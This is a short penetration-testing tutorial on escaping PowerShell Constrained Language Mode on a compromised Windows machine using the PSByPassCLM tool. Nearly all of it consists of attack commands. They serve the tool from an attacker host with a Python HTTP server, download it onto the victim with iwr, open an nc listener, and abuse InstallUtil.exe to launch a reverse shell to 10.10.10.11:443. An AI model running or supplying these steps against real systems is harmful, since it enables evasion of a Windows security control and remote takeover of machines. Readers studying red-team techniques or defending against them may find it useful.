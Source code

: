 # Bypass Constraint Language in PowerShell

It’s possible that sometimes when you gain access to a Windows machine and you have a PowerShell, that this is in a constraint language context. In the victim machine, you can check that with the `$ExecutionContext.SessionState.LanguageMode` command. PSByPassCLM can bypass this by creating a new reverse shell, you can bypass this context.

Clone the PSByPassCLM repository

```text
git clone https://github.com/padovah4ck/PSByPassCLM
```

Transfer PSByPassCLM.exe to the victim machine, to do this we need a listener:

```text
cd PSByPassCLM/PSByPassCLM/PSBypassCLM/bin/x64/Debug
python -m http.server 80
```

Then we may be able to download the file to our target machine with:

```text
iwr -uri http://10.10.10.11/PsByPassCLM.exe -OutFile c:\temp\psby.exe
```

Set up a listening port to catch a reverse shell connection:

```text
rlwrap nc -nlvp 443
```

Run the reverse shell with the following command:

```text
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.10.11 /rport=443 /U c:\temp\psby.exe
```

In the new shell session, if you type `$ExecutionContext.SessionState.LanguageMode`, you will be able to check if you're in a `FullLanguage` context.

